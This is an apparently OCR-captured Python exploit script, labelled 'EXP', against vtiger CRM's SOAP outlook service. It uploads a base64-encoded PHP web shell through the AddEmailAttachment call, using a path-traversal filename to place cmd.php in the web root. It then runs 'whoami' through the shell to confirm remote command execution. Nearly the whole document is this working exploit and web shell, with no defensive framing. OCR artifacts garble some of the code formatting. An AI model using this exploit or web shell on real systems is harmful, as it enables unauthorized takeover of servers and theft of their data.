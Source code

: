 EXP
---

    #!/usr/bin/env python3

    import requests
    from base64 import b64encode

    # parameters depend on environment.
    host = '192.168.85.133'
    port = 8888
    uri = '/'

    url = f'http://{host}:{port}{uri}vtigerservice.php?service=outlook'

    headers = {'Content-Type': 'text/xml', 'charset': 'UTF-8'}


    payload = """
    <?php
    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "

";

`       die;`

} ?\> """

encoded_payload = b64encode(payload.encode()).decode() filename = "cmd.php"

data = f""" <soapenv:Envelope xmlns:crm="http://www.vtiger.com/products/crm" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">

`   `<soapenv:Header/>
`   `<soapenv:Body>
`       `<crm:AddEmailAttachment soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
`           `<emailid xsi:type="xsd:string">`ptFINT`</emailid>
`           `<filedata xsi:type="xsd:string">`{encoded_payload}`</filedata>
`           `<filename xsi:type="xsd:string">`../../../../../../{filename}`</filename>
`           `<filesize xsi:type="xsd:string">`{len(payload)}`</filesize>
`           `<filetype xsi:type="xsd:string">`php`</filetype>
`           `<username xsi:type="xsd:string">`Pbghh`</username>
`           `<session xsi:type="xsd:string"/>
`       `</crm:AddEmailAttachment>
`   `</soapenv:Body>

</soapenv:Envelope> """

1.  send the requests

print("Sending ...") print(data) requests.post(url, headers=headers, data=data)

print("Test command whoami ...") resp = requests.get(f'[http://{host}](http://{host}):{port}{uri}{filename}?cmd=whoami')

print(resp.text)

</pre>
